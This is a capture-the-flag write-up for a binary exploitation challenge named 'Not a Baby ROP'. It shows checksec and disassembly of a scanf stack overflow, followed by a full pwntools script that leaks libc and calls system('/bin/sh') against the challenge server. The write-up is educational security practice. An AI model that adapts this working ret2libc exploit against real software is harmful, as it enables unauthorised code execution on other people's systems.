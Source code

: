 ## Not a Baby ROP 

[challenge](challenge)

## Solution

The binary is compiled with NX and Partial RELRO 

```
pwn checksec ./not-a-baby-rop 
[*] 'hackarmour/not-a-baby/not-a-baby-rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

and is dynamically linked to GLIBC.

```
ldd ./not-a-baby-rop 
	linux-vdso.so.1 (0x00007ffeba57a000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007efe521fb000)
	/lib64/ld-linux-x86-64.so.2 (0x00007efe523ec000)
```

The binary suffers from an overflow.

```
00401142  int64_t warm_up()

00401142  55                 push    rbp {__saved_rbp}
00401143  4889e5             mov     rbp, rsp {__saved_rbp}
00401146  4883c480           add     rsp, 0xffffffffffffff80
0040114a  488d4580           lea     rax, [rbp-0x80 {var_88}]
0040114e  4889c6             mov     rsi, rax {var_88}
00401151  488d3dac0e0000     lea     rdi, [rel data_402004]
00401158  b800000000         mov     eax, 0x0
0040115d  e8eefeffff         call    __isoc99_scanf
00401162  90                 nop     
00401163  c9                 leave    {__saved_rbp}
00401164  c3                 retn     {__return_addr}
```

The binary is fairly minimal, so we'll leak the base address of libc and return to main().

```
def leak_libc():
   chain =  pop_rdi
   chain += puts_got
   chain += puts_plt
   chain += main

   p.recvuntil(b'let\'s see what u got')
   p.recvline()
   p.sendline(pad+chain)
   leak=u64(p.recv(6)+b'\x00\x00')
   log.info("Libc Leak (puts): %s" %hex(leak))
   libc.address=leak-libc.sym['puts']
   log.info("Libc Address: %s" %hex(libc.address))
```

Using [https://libc.rip](https://libc.rip), we determined the libc was [libc6_2.28-10+deb10u1_amd64.so](libc6_2.28-10+deb10u1_amd64.so)

Instead of satisfying the one_gadget constraints, we just moved ``'/bin/sh'`` into ``RDI`` and called ``system`` from ``libc``

```
def call_system():
   chain = pop_rdi
   chain += p64(next(libc.search(b'/bin/sh\0')))
   chain += p64(libc.sym['system'])
   chain += main
   
   p.recvuntil(b'let\'s see what u got')
   p.recvline()
   p.sendline(pad+chain)
```

The final exploit follows.

```
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

if args.REMOTE:
   libc = ELF('libc6_2.28-10+deb10u1_amd64.so',checksec=False)
else:
   libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('warzone.hackrocks.com',7770)
    else:
        return process(e.path)

p = start()

pad = cyclic(136)
pop_rdi = p64(r.find_gadget(['pop rdi','ret'])[0])
puts_got = p64(e.got['puts'])
puts_plt = p64(e.plt['puts'])
main = p64(e.sym['main'])

def leak_libc():
   chain =  pop_rdi
   chain += puts_got
   chain += puts_plt
   chain += main

   p.recvuntil(b'let\'s see what u got')
   p.recvline()
   p.sendline(pad+chain)
   leak=u64(p.recv(6)+b'\x00\x00')
   log.info("Libc Leak (puts): %s" %hex(leak))
   libc.address=leak-libc.sym['puts']
   log.info("Libc Address: %s" %hex(libc.address))

def call_system():
   chain = pop_rdi
   chain += p64(next(libc.search(b'/bin/sh\0')))
   chain += p64(libc.sym['system'])
   chain += main
   
   p.recvuntil(b'let\'s see what u got')
   p.recvline()
   p.sendline(pad+chain)

leak_libc()
call_system()
p.interactive()
```